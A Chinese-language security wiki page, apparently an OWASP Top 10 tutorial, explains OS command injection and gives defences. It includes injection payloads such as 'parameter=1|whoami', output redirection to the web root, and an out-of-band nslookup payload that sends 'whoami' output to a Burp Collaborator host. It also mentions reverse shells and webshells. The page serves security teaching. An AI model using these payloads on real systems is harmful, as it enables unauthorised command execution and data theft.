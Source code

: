 ```yaml
---
description: OWASP-TOP10 漏洞
---
```


# 命令注入（RCE）

## 介绍

命令注入漏洞是一种通过滥用应用程序的行为，在运行应用程序的服务器上执行操作系统命令，攻击者通过会利用此漏洞来破坏基础设施的其他部分，利用信任关系将攻击转向组织内的其他系统

## 影响

根据应用程序运行的权限，造成不同的影响

## 攻击

### 1. 插入特殊字符来检测分割符

```shell
&
;
换行符 (0x0a or \n)
&&
|
||
```

```shell
# 正常的 HTTP 请求
https://vulnerable-website.com/endpoint?parameter=123

# payload
https://vulnerable-website.com/endpoint?parameter=1|whoami
```

### 2. 时间延迟

> 大多数操作系统命令注入都是<mark style="color:red;">盲注</mark>，不会为我们产生任何输出，我们可以使用时间延迟来验证命令注入

```shell
ping -c 10 127.0.0.1
sleep  # 休眠几秒 Linux
timeout  # Windows
```

### 3. 重定向输出

> 这也是一种利用<mark style="color:red;">盲注</mark>的方法，我们可以将注入命令的输出重定向到 WEB 根目录的一个文件中，然后访问它

```shell
whoami>/var/www/images/output.txt
```

### 4. 使用 OAST 进行操作系统命令注入

**payload**：使用`Burp Collaborator Client`

```shell
注入点=x||nslookup+burpcollaborator.net||
```

payload

```shell
注入点=||nslookup+`whoami`.YOUR-SUBDOMAIN-HERE.burpcollaborator.net||
```

## 5. 获取 REVRSE SHELL

> 可以借助命令执行来获取 REVERSE SHELL ，也可以进行文件上传一些特殊页面，实现获取 SHELL

## 防御

> 到目前为止，防止操作系统命令注入漏洞的最有效方法是永远不要从应用层代码中调用操作系统命令。
>
> 在很多情况下，都有使用更安全的平台API实现所需功能的替代方法。

如果使用用户提供的输入向操作系统命令发出呼叫被认为是不可避免的，则必须执行强输入验证。有效验证的一些示例包括：

* 对准允许值的白名单进行验证。
* 验证输入是一个数字。
* 验证输入仅包含字母数字字符，没有其他语法或空白。

## 绕过思路

* 使用十六进制绕过

## 配合

### 1. 文件上传&命令注入

利用文件上传一些 WEBSHELL

&#x20;

## 参考文章

* [操作系统命令注入](https://portswigger.net/web-security/os-command-injection)
* [狼组安全团队公开知识库](https://wiki.wgpsec.org/knowledge/web/cmd\_injection.html)

## 提升

* [命令注入漏洞介绍-上](https://www.freebuf.com/articles/web/276503.html)
* [命令注入漏洞介绍-下](https://www.freebuf.com/articles/web/276505.html)
